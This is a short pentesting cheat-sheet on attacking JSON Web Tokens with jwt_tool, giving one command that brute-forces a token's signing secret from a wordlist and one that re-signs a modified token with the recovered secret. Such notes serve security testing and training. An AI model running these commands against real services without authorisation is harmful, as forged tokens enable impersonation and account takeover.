 # Brute Forcing JSON Web Tokens (JWTs)

---

## Brute Force JWT Secret with Wordlist

[jwt_tool](https://github.com/ticarpi/jwt_tool)

```bash
python3 jwt_tool $JWT -C -d $PATH_TO_WORDLIST
```

The output of a successful attack will print the `jwt_tool` command you can use to modify and resign the JWT.

---

## Modify JWT with Known Secret

```bash
python3 jwt_tool $JWT -T --sign $ALGORITHM -p $SECRET
```
